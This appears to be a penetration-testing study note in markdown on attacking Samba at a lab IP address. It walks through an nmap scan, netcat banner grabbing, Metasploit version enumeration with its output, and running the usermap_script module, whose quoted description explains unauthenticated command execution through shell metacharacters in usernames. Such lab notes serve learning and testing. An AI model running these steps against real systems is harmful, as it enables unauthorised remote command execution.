 ### [SAMBA](../1-system-attack/linux-attacks/samba-unix.md)

```bash
nmap -sV -p 445 10.2.20.205
```

```bash
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

- Banner grabbing

```bash
nc -nv 10.2.20.205 445
# No banner
```

- Enumerate the exact version of Samba

```bash
msfconsole
```

```bash
search smb_version
use auxiliary/scanner/smb/smb_version
setg RHOSTS 10.2.20.205
run
```

```bash
[*] 10.2.20.205:445 - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 10.2.20.205:445 - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.2.20.205: - Scanned 1 of 1 hosts (100% complete)
```

```bash
searchsploit samba 3.0.20
```

```bash
# In the MSFconsole
search samba 3.0.20
use exploit/multi/samba/usermap_script
info
# Description:
#   This module exploits a command execution vulnerability in Samba 
#   versions 3.0.20 through 3.0.25rc3 when using the non-default 
#   "username map script" configuration option. By specifying a username 
#   containing shell meta characters, attackers can execute arbitrary 
#   commands. No authentication is needed to exploit this vulnerability 
#   since this option is used to map usernames prior to authentication!
run
```
